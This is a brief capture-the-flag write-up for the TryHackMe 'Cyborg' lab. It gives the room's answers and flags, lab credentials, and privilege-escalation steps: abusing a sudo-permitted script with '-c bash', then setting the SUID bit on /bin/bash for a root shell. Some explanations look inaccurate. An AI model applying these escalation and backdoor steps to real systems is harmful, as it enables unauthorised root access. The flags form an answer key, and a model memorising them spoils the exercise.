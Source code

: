# TryHackMe Cyborg

# Saikat Karmakar | Jan 28:2021

# Task 2 
1. can the machine, how many ports are open?
```
2
```
2. What service is running on port 22?
```
ssh
```
3. What service is running on port 80?
```
http
```
4. What is the user.txt flag?
```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
5. What is the root.txt flag?
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

-----------
***Notes***
-----------
downlaod borg 
https://github.com/borgbackup/borg

./borg list home/field/dev/final_archive/
passphrase = squidward

./borg extract home/field/dev/final_archive/::music_archive

ssh
```
user = alex
pass = S3cretP@s3
```

***Parsing bash script options with getopts***
https://sookocheff.com/post/bash/arsing-bash-script-arguments-with-shopts/
=================================================
to get the root: sudo -r root ./backup.sh -c bash
=================================================
```
-r role, --role=role
                 Run the command with an SELinux security context that includes the specified role.
```
```
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```
=======================================================================
in the upper portion of the block whenever we pass a argument after c it'll execute it. if we pass bash after `-c` we'll exe. the bash as the super user(as we ran it using sudo -r root).


But whenever we run any command we don’t get any output stdout wasn’t working . The easiest was i found was to add a SUID bit on bash then exiting this shell and using bash binary to get root on the box.
--------------------
chmod 4577 /bin/bash
--------------------